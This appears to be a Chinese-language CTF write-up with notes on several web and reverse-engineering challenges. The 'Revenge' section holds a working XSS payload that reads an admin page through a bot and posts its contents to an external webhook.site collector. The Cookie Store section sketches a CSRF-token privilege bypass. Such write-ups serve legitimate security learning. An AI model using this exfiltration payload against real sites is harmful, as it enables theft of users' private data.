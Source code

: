 # web
### BABY DUCKY NOTES
理清楚路由即可,
`post/view/<name>`可以访问这个用户的post内容,在`database.db`里可以看到flag是放在了admin下
,签到题,直接访问admin的post即可
### BABY DUCKY NOTES: REVENGE
#xss 
根据名字也知道是上一题的升级版
使用winmerge对比一下两道题附件,基本一致,但是revenge题目设置了hidden属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230728204549.png)

那就需要用到bot来帮我们读取flag了,那就是xss了

---
本地都打到了,怎么bot不行,还好试出来了
*payload*
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost:1337/posts/view/admin', true);
xhr.onreadystatechange = function() {
    var sourceCode = xhr.responseText;
    // 在这里处理获取到的网站源代码
    var data = "sourceCode=" + encodeURIComponent(sourceCode); // 定义data变量
    var xhr2 = new XMLHttpRequest(); // 创建新的XMLHttpRequest对象
    var url = "https://webhook.site/0f4d9c2a-3099-44f4-a220-ad03ee9c92dd"; // 将URL设置为您的服务器端点
    xhr2.open("POST", url);
    xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr2.onload = function() {
      if (xhr2.status === 200) {
        console.log(xhr2.responseText);
      }
      else {
        console.log("请求失败");
      }
    };
    xhr2.send(data); // 将数据发送到服务器
};
xhr.send();
```
### COOKIE STORE
一个可以自定义模板,并且能分享给其他人的网站
提交的模板会存储的session里,并且使用`csrf_token`防止越权
![image|500](https://i.imgur.com/YyII7ml.png)
我们可以操作bot向指定fields写入FLAG内容,
```python
    client.get(f"http://localhost:1337/form_builder?fields={fields}")

    time.sleep(2)
    try:
        client.find_element(By.ID, "title").send_keys(FLAG)
    except:
        pass
    client.execute_script("""document.querySelector('input[type="submit"]').click();""")
    time.sleep(2)
```
也就是我们需要通过`csrf_token`来越权

# reverse
### PASS
热身题
```python
string="PziP97vkc5sA6oJM0KwWEnQX2OFaH0nAFTuS42myr31GYbJIfBSdAFWsLpx8N0v4PzO7aIVQaHrVq6AW8c1K5ZyFXzMeRAOiJ2nWXYy2Pj7x96RzkcA3\
inNqlDOBLKZ4rNFYGTn0Cl5U9aX2WIH1cOyIbm2AZ0k31u7FrxBECKPpMhYVUyvA5LfgXcW9eDSMTBlsorR22laXN3e8<qSCmwK0Do9bJzYvd5YgG3dR\
BhwMvOp2qS08UWQKtLQbphJTXLd2~fktr45ES7OK3x0yNqu1XSC9nA`rGpBvQlbDktjIxLm2KlVYnXw0mpt5aOe8B4grGXFe06gaZv3PYdpS4CDquJnm\
kR1Mn6sKScF3vV7pdzYfTkBRbqGbzu2wtPHkXsx1pK14ojTfJYIe0PpU1TjDKaW85uZ2mlFHYMSEkBvKo6WIdTnVRewMPk|3pU1SjNErN7s0HYlp9tMq\
AmBh0dXD4VaK8NZWU1fnrsQaEc5Bht09eHwxDSpWj0ahd5rtIzyKETxUq9CkXC8DAP37Kc1UqOvdb2GT0Yvxuh1grzfdR4JiVpo83QOEWlL2<Bt9Xm7Q\
5RNkljfOZogB8ctIzyra9wF0RKycTJjvZfDlm6o75QsG`2laXN3e85qSCmwK0Do9bJzYvdZE6"

for i in range(0,len(string),26):
    if(ord(string[i])==90):
        print(chr(123),end='')
    else:
        print(chr((ord(string[i])^0xB)-7),end='')


```


### PROCESS-MONITOR
给了三个文件,`ProcessMonitor.inf`,`ProcessMonitor.cat`,`ProcessMonitor.sys`
sys是驱动程序,需要re

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-28   20:19